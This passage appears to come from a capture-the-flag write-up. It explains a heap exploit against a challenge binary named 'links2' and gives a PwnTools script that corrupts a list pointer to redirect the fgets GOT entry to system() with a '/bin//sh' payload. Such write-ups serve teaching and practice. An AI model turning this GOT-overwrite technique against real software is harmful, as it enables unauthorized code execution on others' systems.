A couple of things to mention:

- To populate the address of `got.system`, the function must be called. Therefore we call the `view_time` function before doing our arbitrary write.
- Calling `view_time` breaks my usual `gdb.debug` command; hence the `gdb.attach` command in the script. We can use that to debug but unfortunately lose access to the `heap` and `vis_heap_chunks` commands. If you want to debug using the standard method, comment out the "View time" line of code.

We'll create a PwnTools script, setting a breakpoint at `write_data`.

```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links2'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 3 elements to list
for i in range(3):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Modify element in list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))

# Add element to list
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', flat([elf.got.system]))

```